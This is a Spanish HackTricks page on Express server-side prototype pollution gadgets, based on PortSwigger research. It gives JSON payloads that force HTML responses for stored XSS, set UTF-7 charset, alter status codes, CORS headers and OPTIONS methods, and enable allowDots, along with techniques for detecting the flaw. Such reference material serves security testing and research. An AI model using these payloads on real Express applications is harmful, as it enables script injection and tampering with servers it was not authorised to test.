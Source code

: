 # Gadgets de Contaminación de Prototipos de Express

{% hint style="success" %}
Aprende y practica Hacking en AWS:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Aprende y practica Hacking en GCP: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Apoya a HackTricks</summary>

* Revisa los [**planes de suscripción**](https://github.com/sponsors/carlospolop)!
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de telegram**](https://t.me/peass) o **síguenos** en **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Comparte trucos de hacking enviando PRs a los** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repositorios de github.

</details>
{% endhint %}

## Servir respuestas XSS

**Para más detalles** [**echa un vistazo a la investigación original**](https://portswigger.net/research/server-side-prototype-pollution)

### Cambiar el tipo de contenido JSON a HTML

En una aplicación Express que utiliza una **respuesta de tipo de contenido JSON** y refleja un JSON:
```javascript
app.use(bodyParser.json({type: 'application/json'}));
app.post('/', function(req, res){
_.merge({}, req.body);
res.send(req.body);
});
```
En estos casos, XSS normalmente no es posible con un tipo de contenido JSON. Sin embargo, con la contaminación de prototipos podemos **confundir a Express para que sirva una respuesta HTML.** Esta vulnerabilidad se basa en que la aplicación utiliza **`res.send(obj)`** y usa el analizador de cuerpo con el tipo de contenido application/json.
```json
{"__proto__":{"_body":true,"body":"<script>evil()"}}
```
Al **contaminar** las propiedades **`body`** y **`_body`**, es posible hacer que **Express sirva el tipo de contenido HTML** y refleje la propiedad `_body`, lo que resulta en XSS almacenado.

### Renderizar UTF7

Es posible hacer que express **renderice contenido UTF-7 con**:
```json
{"__proto__":{"content-type": "application/json; charset=utf-7"}}
```
## Técnicas de Escaneo Seguras

### Espacios JSON

El siguiente PP hará que los atributos dentro de un JSON tengan un espacio extra que no romperá la funcionalidad:
```json
{"__proto__":{"json spaces": " "}}
```
Entonces un JSON reflejado se verá así:
```json
{"foo":  "bar"} -- Note the extra space
```
### Exposed Headers

El siguiente gadget de PP hará que el servidor envíe de vuelta el encabezado HTTP: **`Access-Control-Expose_headers: foo`**
```json
{"__proto__":{"exposedHeaders":["foo"]}}
```
Requiere que el **módulo CORS esté instalado**

### **Método OPTIONS**

Con la siguiente carga útil, es posible **ocultar un método de una respuesta OPTIONS**:
```javascript
// Original reponse: POST,GET,HEAD

// Payload:
{"__proto__":{"head":true}}

//New response: POST;GET
```
### **Estado**

Es posible cambiar el **código de estado devuelto** utilizando la siguiente carga útil de PP:
```json
{"__proto__":{"status":510}}
```
### Error

Cuando asignas a un prototipo con un primitivo como una cadena, produce una **operación no-op ya que el prototipo tiene que ser un objeto**. Si intentas asignar un objeto prototipo al `Object.prototype` en sí, esto **lanzará una excepción**. Podemos usar estos dos comportamientos para **detectar si la contaminación del prototipo fue exitosa**:
```javascript
({}).__proto__.__proto__={}//throws type exception
({}).__proto__.__proto__="x"//no-op does not throw exception
```
### Valor Reflejado

Cuando una aplicación incluye un objeto en su respuesta, crear un atributo con un **nombre inusual junto a `__proto__`** puede ser revelador. Específicamente, si **solo se devuelve el atributo inusual** en la respuesta, esto podría indicar la vulnerabilidad de la aplicación:
```json
{"unusualName":"value","__proto__":"test"}
```
Además, en escenarios donde se emplea una biblioteca como Lodash, establecer una propiedad tanto a través de la contaminación del prototipo (PP) como directamente dentro del objeto ofrece otro enfoque de diagnóstico. Si tal propiedad se omite de la respuesta, sugiere que Lodash está verificando la existencia de la propiedad en el objeto objetivo antes de fusionar:
```javascript
{"__proto__":{"a":"value1"},"a":"value2","b":"value3"}
// If 'b' is the only property reflected, this indicates prototype pollution in Lodash
```
## Misceláneo

### Permitir Puntos

Hay una opción en Express que te permite **crear objetos a partir de parámetros de la cadena de consulta**.\
Definitivamente podrías usarlo en una **cadena** de errores para explotar una **vulnerabilidad de contaminación de prototipos**.
```json
{"__proto__":{"allowDots":true}}
```
**`?foo.bar=baz` crea un objeto en Node.**

## Referencias

* [https://portswigger.net/research/server-side-prototype-pollution](https://portswigger.net/research/server-side-prototype-pollution)


{% hint style="success" %}
Aprende y practica Hacking en AWS:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Aprende y practica Hacking en GCP: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Apoya a HackTricks</summary>

* Revisa los [**planes de suscripción**](https://github.com/sponsors/carlospolop)!
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de telegram**](https://t.me/peass) o **síguenos** en **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Comparte trucos de hacking enviando PRs a los** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repositorios de github.

</details>
{% endhint %}
